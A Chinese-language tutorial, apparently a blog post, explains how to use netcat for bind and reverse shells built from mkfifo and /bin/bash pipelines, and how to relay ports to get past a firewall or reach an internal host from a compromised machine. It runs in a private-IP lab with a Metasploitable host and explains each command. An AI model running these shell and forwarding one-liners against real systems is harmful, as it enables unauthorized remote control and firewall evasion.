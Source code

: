 获取shell

获取shell分成２种，一种是正向shell，一种是反向shell。这个和ssh实现正向代理与反向代理意思差不多。我的理解是：连接的方向与获取哪个shell。如果客户端连接服务器，想获取服务器的shell，那么称为正向shell，如果是客户端连接服务器，服务器端想获取客户端的shell，那么称为反向shell。



正向shell

如果nc带有-e选项可以直接使用 

nc serverIP PORT -e /bin/bash 

进行提供远程shell，这里我主要讲在没有-e选项的时候，如果用nc实现shell功能。



freestyle4568@freestyle4568 ~ $ mkfifo /tmp/fifo

freestyle4568@freestyle4568 ~ $ cat /tmp/fifo \| /bin/bash -i 2&gt;&1 \| nc -l 8000 &gt; /tmp/fifo

1

2

然后在客户端用



msfadmin@metasploitable:~$ nc 192.168.1.102 8000

1

然后就能连接成功，并且返回server端的shell。 

结果如下： 

客户端获得服务端shell 

原理详解： 

1. 创建fifo文件，管道文件用于将nc输出文件与bash的输入文件。 

2. cat /tmp/fifo是从fifo读取数据，将数据通过管道传给bash。 

3. \| /bin/bash -i 2&gt;&1这里需要注意2&gt;&1的意义，这是将２标准错误描述符重定向到１标准输出文件描述符指向的地方，为什么是＆１，而不是１呢，这是为了转义１的意思表示文件描述符而不是文件名为１。 

4. 将bash执行结果输入到nc输入中，从而可以传至客户端。 

5. 在客户端输入的命令数据通过服务端的nc输出重定向到fifo中，在服务端形成一个循环。



反向shell

又称为反弹shell，服务端要获取客户端的shell，客户端在连接上的时候将提供自己的shell功能给服务端。 

在服务端输入： 

nc -l 8001 

在客户端输入：



cat /tmp/fifo \| /bin/bash -i 2&gt;&1 \| nc 192.168.1.102 8001 &gt; /tmp/fifo

1

显示结果如下所示： 

反弹shell



netcat实现端口转发功能

网上介绍netcat的用法的文章实在太多了，这里我就不重复介绍了，一搜一大堆！这里介绍一种用netcat实现端口转发的方法，我在网上搜了半天，并没有找到相应的实现，多是反弹shell的实现。其实nc做端口转发的思路和shell功能的实现很相似，只需要稍加改造即可。 

为什么要端口转发呢？因为防火墙，或者外网访问内网的原因。比如防火墙不允许访问本机的3389端口怎么办，或者外网要想访问一台内网机器怎么办。这时端口转发可以很好的解决这些问题。 

1. 对于防火墙禁止访问某些端口的问题，比如3389端口，我们可以将利用机器的3000端口做端口转发，从外界接受数据，转发给本机的3389端口，从而绕过防火墙。 

2. 对于无法访问内网特定机器的问题，我们可以先抓取内网一台机器，然后利用这台弱鸡进行端口转发，接受外网的数据，将数据转发到内网目标机器的特定端口。



实现

下面来看看如何用nc实现简单的端口转发。 

- 背景：192.168.1.103的msfadmin用户需要访问192.168.1.102的8000端口，但是该端口被防火墙保护着，不允许外界机器访问。目前msfadmin用户只能访问192.168.1.102的9000端口。需要9000端口做转发。 

- 目标：msfadmin通过访问192.168.1.102的9000端口，达到与8000端口通话的目的。 

1. 在192.168.1.102上开启8000端口。 

nc -l 8000 

2. 在192.168.1.102上实现9000端口转发。 

freestyle4568@freestyle4568 ~ $ cat /tmp/fifo \| nc localhost 8000 \| nc -l 9000 &gt; /tmp/fifo 

3. 在192.168.1.103上连接192.168.1.102的9000端口。 

nc -n 192.168.1.102 9000 

结果如下图： 

端口转发

可以看到msfadmin成功的与freestyle4568的8000端口进行了通话，但是实际上连接的是它的9000端口。

